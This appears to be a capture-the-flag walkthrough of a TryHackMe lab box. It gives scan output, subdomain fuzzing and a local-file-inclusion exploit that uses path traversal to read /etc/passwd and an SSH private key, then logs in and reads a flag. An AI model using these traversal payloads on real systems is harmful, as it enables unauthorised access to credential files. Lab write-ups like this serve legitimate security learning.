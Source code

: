# Teamfinal

[Play](https://tryhackme.com/room/teamcw)

## Recon

As usual, we start off with `nmap` and `gobuster` scans. 

`❯ nmap -sC -sV -A 10.10.82.31`

`❯ gobuster dir -u 10.10.82.31 -w "/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt" -x "html,php,txt"`

While they run, let's check out the webpage itself. Looks like the default page.

![](https://i.imgur.com/YFJ7Hhw.png)

We see two things: that bug and the `team.thm` thing. The bug link is nothing special. Let's add `team.thm` to our host list. `nmap` is finished, and we can kill gobuster scan; since it does not look any useful.

```
❯ sudo vim /etc/hosts
❯ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.10.82.31     team.thm
# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

```
❯ nmap -sC -sV -A 10.10.82.31
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-09 23:36 EST
Nmap scan report for 10.10.82.31
Host is up (0.35s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 79:5f:11:6a:85:c2:08:24:30:6c:d4:88:74:1b:79:4d (RSA)
|   256 af:7e:3f:7e:b4:86:58:83:f1:f6:a2:54:a6:9b:ba:ad (ECDSA)
|_  256 26:25:b0:7b:dc:3f:b2:94:37:12:5d:cd:06:98:c7:9f (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works! If you see this add 'te...
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.96 seconds
```

Ah. we see a proper page up here. Looking at the source, we see `/assets` and `/images`. I don't like stego challenges, so I'll keep it for the end.

Let's fire up `gobuster` again, on `team.thm` this time. While that runs, I tried looking around in the website, but nothing special. Same goes for trying out `anon` login in `ftp`. Searchsploit did not return anything intersting. 

I've also learnt that this domain may not be the only one; we should look for subdomains as well. I will use `wfuzz`. Since this is the first time I'm mentioning this, I'll explain all the flags as well :P

```
❯ wfuzz -c --hw 977 -w /usr/share/wfuzz/wordlist/general/common.txt -u http://team.thm/ -H "Host: FUZZ.team.thm" --hc 400
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://team.thm/
Total requests: 951

=====================================================================
ID           Response   Lines    Word       Chars       Payload       
=====================================================================

000000257:   200        9 L      20 W       187 Ch      "dev"         
000000936:   200        89 L     220 W      2966 Ch     "www"         

Total time: 36.97936
Processed Requests: 951
Filtered Requests: 949
Requests/sec.: 25.71704
```

Okay. One by one.

- `-c` flag is for colorful output
- `--hw` stands for `hide words`, probably. It was showing a ton of rows with `977`, so I hardcoded :D
- `-w` wordlist. If you are in kali, you already have it saved.
- `-u` url
- `-H` host name. `FUZZ` gets replaced by the `Payload`.
- `--hc` hides responses having `400` error.

Also, from `gobuster`, we have this uptill now.

```
❯ gobuster dir -u team.thm -w "/usr/share/dirbustrectory-list-2.3-medium.txt" -x "html,php,txt"
=================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer
=================================================
[+] Url:            http://team.thm
[+] Threads:        10
[+] Wordlist:       /usr/share/dirbuster/wordlistt-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     html,php,txt
[+] Timeout:        10s
=================================================
2021/03/09 23:44:28 Starting gobuster
=================================================
/index.html (Status: 200)
/images (Status: 301)
/scripts (Status: 301)
/assets (Status: 301)
/robots.txt (Status: 200)
```

Interesting times. Scripts I can't access, so i'll leave it be. We can run another `gobuster` on `team.thm/scripts`, but that is for later. `robots.txt` is always interesting.

![](https://i.imgur.com/0u3oCyW.png)

Is what is shows. Lmao. Probably the ftp username? Password we can bruteforce. This is another thing we can try.

Pending paths:
- images stego
- gobuster on `/scripts`
- bruteforce `ftp` using `dale` as username.

However, there are tastier things for us right now. Let's go to `dev.team.thm` as given by `wfuzz`. Do not forget to include it in the `/etc/hosts`!

![](https://i.imgur.com/L0mKUUj.png)

Huh. Let's follow that. It redirects us to the url: `http://dev.team.thm/script.php?page=teamshare.php`

![](https://i.imgur.com/wnQJ8Ns.png)


Both of these combined, this looks very much like a `LFI`. Let's try `http://dev.team.thm/script.php?page=../../../../etc/passwd`. Since Apache is around `/var/www/html/`.

![](https://i.imgur.com/AAdqDXG.png)


Works! We see `dale`, `gyles` and some `ftpuser`. Interesting. Our first target is then to get into `dale`.

## Foothold

Okay. Since there was a `ssh` port open, we can assume `dale` is the username of that (It could br for `ftp` as well, who knows!).

So, we are looking for either the password of dale, or a private key. Since we have no better option currently, we can bruteforce paths using `burpsuite`. Turn on `foxy-proxy` or any other tool you use, and fire up `burp`.

Intercept a request, copypaste it. It looks like

```
GET /script.php?page=../../../../etc/passwd HTTP/1.1

Host: dev.team.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

Now, go to the `intruder` tab, and setup as the following:

![](https://i.imgur.com/JfUKF2w.png)

![](https://i.imgur.com/A9qcD6D.png)

![](https://i.imgur.com/HgfY6eP.png)

I've put in the payload from [here](https://raw.githubusercontent.com/hussein98d/LFI-files/master/list.txt)

Now, you can let it run, but community edition sucks for this. Speed is shit and the thing we are looking for, is towards the bottom of the list. Let me save you some trouble, the path we are looking for, is `/etc/ssh/sshd_config`. The url thus being `http://dev.team.thm/script.php?page=../../../../etc/ssh/sshd_config`

![](https://i.imgur.com/UZN47TX.png)

We see the sweet sweet private key, which means we can get in! Since the formatting is shit, go the source and the copy-paste it. Yeet all the '#' in the starting. 

We are in! 

```
❯ ssh dale@10.10.82.31 -i temp
Last login: Mon Jan 18 10:51:32 2021
dale@TEAM:~$ ls
user.txt
dale@TEAM:~$ cat user.txt
THM{HELL YEAH}
```

We are done!

## Priv Esc

